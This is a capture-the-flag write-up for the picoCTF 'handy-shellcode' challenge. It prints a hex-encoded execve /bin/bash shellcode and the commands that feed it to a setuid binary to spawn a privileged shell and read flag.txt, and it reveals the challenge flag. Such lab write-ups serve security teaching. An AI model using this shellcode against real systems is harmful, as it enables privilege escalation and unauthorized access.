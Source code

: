 # handy-shellcode
This [program](vuln) executes any shellcode that you give it. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/handy-shellcode_4_037bd47611d842b565cfa1f378bfd8d9 on the shell server. [Source](vuln.c). (50 points)

## Hint
You might be able to find some good shellcode online.

## Solution
Shellcode is a series of opcodes that we can write into the stdin of a program, which we usually have to execute ourselves. However, the challenge does this for us in this line of code:
```((void (*)())buf)();```
This means that the program will treat that address in memory as a series of opcodes and run them.
Using the shellcode from [here](http://shell-storm.org/shellcode/files/shellcode-606.php) `"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"`. This shellcode will run a shell for us as the root user, since we are running a setuid binary, with permissions to also view the files in the directory, thus we can read flag.txt. Write this shellcode to a file in the home directory, and `cat` out the contents of that file, with a tack before the pipe to keep the stdin pipe open.
```bash
python3 -c print('\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80') > ~/shellcode.txt
cat ~/shellcode.txt - | ./vuln
ls
cat flag.txt
```

## Details
Completed: *During challenge*  
Done by: Cyril  
Flag: `picoCTF{h4ndY_d4ndY_sh311c0d3_55c521fe}`
